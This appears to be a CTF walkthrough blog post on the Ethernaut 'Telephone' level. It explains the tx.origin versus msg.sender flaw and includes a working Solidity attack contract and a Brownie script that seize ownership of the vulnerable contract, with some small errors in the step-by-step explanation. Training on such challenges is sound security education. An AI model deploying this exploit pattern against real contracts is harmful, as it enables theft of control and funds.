 ```yaml
---
title: Ethernaut - Level 04 - Telephone
date: 2022-08-24
---
```

{{<figure src="../images/telephone-4.svg" caption="Image courtesy of OpenZeppelin">}}
## Ethernaut 04 - Telephone
This level from Ethernaut, called Telephone, is a good exercise to learn the nuances between `tx.origin` and `msg.sender` and why you should never use `tx.origin` for authentication purposes:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Solidity has a global variable, `tx.origin`, which traverses the entire call stack and returns the address of the account that originally sent the transaction (or performed the call). Using this global variable for authentication in smart contracts leaves the contract vulnerable to phishing-like attacks, which is exactly what this level is about.

According to Solidity’s documentation:

> `tx.origin` holds the address of the sender of the transaction, while `msg.sender` holds the address of the sender of the message

This means that `tx.origin` will refers to the address of an account that sent a transaction, and `msg.sender` refers to the address of an account or a smart contract that is directly calling a smart contract’s function.

{{<figure src="../images/txorigin-msgsender.png" caption="`tx.origin` vs `msg.sender`">}}

Based on the previous image, if `Account` calls `contract A` , and `contract A` calls `contract B`, in `contract B`, the value assigned to `msg.sender` will be `contract B` and the value assigned to `tx.origin` will be `Account`.

## Where is the vulnerability?
The vulnerability in this contract is contained in the `changeOwner` function, as it uses `tx.origin` in the if statement before changing the contract’s owner:

```solidity {lineos=table,hl_lines=[2],lineofstart=1}
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
```
We will pass this level if `tx.origin` differs from `msg.sender` . This can be achieved if `msg.sender` is whatever address that calls the `changeOwner` function and `tx.origin` is the address that originally started the transaction. In other words, we will use a malicious contract (`telephoneAttack.sol`) as middleman. Once we first call our `telephoneAttack.sol` contract, it will call the `Telephone.sol` instance. For the `Telephone.sol` contract, `tx.origin` will be our EOA’s (external owned account) address and `msg.sender` will be our `telephoneAttack.sol` contract’s address.

A vulnerability like this, costed THORChain $8 million dollars, as Adrian Hetman documented in his [Unboxing tx.origin: Rune Token case](https://www.adrianhetman.com/unboxing-tx-origin/) article.

## Hacking the contract
Let's start creating our malicious contract, `telephoneAttack.sol`, with the following implementation:

```solidity {lineos=table,hl_lines=[9,10,11,13,14],lineofstart=1}
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'interfaces/telephoneInterface.sol';

contract TelephoneAttack {
    TelephoneInterface telephone;

    constructor(address _attackerAddress) public{
        telephone = TelephoneInterface(_attackerAddress);
    }

    function exploit() public {
        telephone.changeOwner(msg.sender);
    }

    function destroy() public {
        selfdestruct(msg.sender);
    }
}
```

As always, the script to trigger the attack is shown below:

```python {lineos=table,hl_lines=[5,6,11],lineofstart=1}
from brownie import accounts, config, interface, web3, TelephoneAttack


def exploit(target, hacker):
    deploy_attack = TelephoneAttack.deploy(target, {"from": hacker})
    deploy_attack.exploit({'from': hacker, 'allow_revert': True})
    deploy_attack.destroy({'from': hacker})


def main(target):
    hacker = accounts.add(config['wallets']['from_key'])
    print(f'Attacker address: {hacker}, Target address: {target}')
    exploit(target, hacker)
```


Based on the explanation provided before the attack can be summarized in few steps:

- We start by deploying our malicious contract (`TelephoneAttack.deploy`), therefore, `tx.origin` will have the user's account address.
- The `TelephoneAattack` contract initializes an instance of `Telephone` within its `constructor` passing the `TelephoneAttack` contract's address as `msg.sender`.
- Our script will call `deploy_attack.exploit`, which executes the `exploit()` function and calls `telephone.changeOwner(msg.sender);`.
- As mentioned earlier in this walkthrough, the `tx.origin` is a global variable which traverses the entire call stack and returns the address of the account that originally sent the transaction, our user account, differing from the value assigned to `msg.sender` (Our `TelephonAttack` contract's address).
- As `tx.origin` differs from `msg.sender`, our exploit will pass the `if` statement and execute the `owner = _owner;` statement, assigning us as the contract's legitimate owner

## Takeaways
The most valuable takeaway from this challenge is to learn to do not use `tx.origin` for authorization purposes, additionally, by using `tx.origin` you are limiting interoperability between contracts, since contracts using `tx.origin` cannot be used by other contracts (*a contract can never be the `tx.origin`*). Instead, you should use `msg.sender` for authorization.